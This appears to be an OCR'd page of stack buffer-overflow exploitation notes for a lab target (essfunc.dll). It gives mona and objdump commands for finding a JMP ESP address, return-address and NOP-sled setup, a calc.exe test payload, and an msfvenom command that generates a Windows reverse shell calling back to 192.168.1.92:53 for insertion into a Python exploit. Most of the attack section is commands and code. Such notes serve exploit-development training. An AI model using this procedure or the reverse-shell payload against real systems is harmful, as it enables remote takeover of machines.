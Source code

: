 The mona jmp command can be used to search for jmp (or equivalent) instructions to a specific register. The jmp command will, by default, ignore any modules that are marked as aslr or rebase.

The following example searches for "jmp esp" or equivalent (e.g. call esp, push esp; retn, etc.) while ensuring that the address of the instruction doesn't contain the bad chars \\x00, \\x0a, and \\x0d.


    !mona jmp -r esp -cpb "\x00\x0a\x0d"

The mona find command can similarly be used to find specific instructions, though for the most part, the jmp command is sufficient:


    !mona find -s 'jmp esp' -type instr -cm aslr=false,rebase=false,nx=false -cpb "\x00\x0a\x0d"
    
    

Alternate method: on attack box, search DLL file for JMP ESP (\xff\xd4)  
 
 
    objdump -d essfunc.dll | grep 'ff e4'
    
Insert address into script as retn variable, with bytes flipped. 
Ex.

    retn = "\xdf\x14\x50\x62"      #0x625014df       
    
Insert NOPs

    padding = "\x90" * 16
 

    
Popping calc.exe    
================   

Not getting a shell connection: test if offset, bad chars and JMP ESP are correct by running calc.exe.  


    msfvenom -p windows/exec CMD=calc.exe -b "\x00" -f c         


Generate Payload
================

Generate a reverse shell payload using msfvenom, making sure to exclude the same bad chars that were found previously:


    msfvenom -p windows/shell_reverse_tcp LHOST=192.168.1.92 LPORT=53 EXITFUNC=thread -b "\x00\x0a\x0d" -f c    
    
copy C shellcode and insert into python script as payload = ("\xfc\xbb\xa1\..multiple lines..6\xa2\xeb\x0c")

Prepend NOPs
============

If an encoder was used (more than likely if bad chars are present, remember to prepend at least 16 NOPs (\\x90) to the payload.

Final Buffer
============
